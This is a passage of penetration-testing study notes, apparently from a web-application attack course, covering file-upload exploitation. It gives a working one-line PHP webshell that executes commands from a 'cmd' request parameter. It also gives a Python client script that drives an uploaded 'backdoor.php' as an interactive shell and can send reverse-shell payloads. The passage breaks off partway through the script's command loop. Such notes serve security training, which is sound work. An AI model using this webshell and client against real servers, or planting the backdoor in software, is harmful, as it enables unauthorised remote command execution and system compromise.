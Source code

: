  * While parameter fuzzing, we should also try SQLi payloads as values for parameters

* Arbitrary file upload:

  * For testing file upload functionality, we can check with a simple PHP webshell, which once uploaded, allows us to execute commands using the 'cmd' parameter:

    ```php
    <?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); die; }?>
    ```
  
  * For the given app, file upload is done via a POST request to '/api/upload', and we can go for any file extension

  * We can use a Python script to get a shell, leveraging the uploaded 'backdoor.php' file:

    ```py
    import argparse, time, requests, os
    # imports four modules argparse (used for system arguments), time (used for time), requests (used for HTTP/HTTPs Requests), os (used for operating system commands)

    parser = argparse.ArgumentParser(description="Interactive Web Shell for PoCs")
    # generates a variable called parser and uses argparse to create a description

    parser.add_argument("-t", "--target", help="Specify the target host E.g. http://10.129.50.65:3001/uploads/backdoor.php", required=True)
    # specifies flags such as -t for a target with a help and required option being true

    parser.add_argument("-p", "--payload", help="Specify the reverse shell payload E.g. a python3 reverse shell. IP and Port required in the payload")

    parser.add_argument("-o", "--option", help="Interactive Web Shell with loop usage: python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes")

    args = parser.parse_args()
    # defines args as a variable holding the values of the above arguments so we can do args.option for example.

    if args.target == None and args.payload == None: # checks if args.target (the url of the target) and the payload is blank if so it'll show the help menu
        parser.print_help() # shows help menu
    elif args.target and args.payload: # elif (if they both have values do some action)
        print(requests.get(args.target+"/?cmd="+args.payload).text) 
        # sends the request with a GET method with the targets URL appends the /?cmd= param and the payload and then prints out the value using .text because we're already sending it within the print() function
    if args.target and args.option == "yes": # if the target option is set and args.option is set to yes (for a full interactive shell)
        os.system("clear") 
        # clear the screen (linux)
        while True:
            try:
                cmd = input("$ ")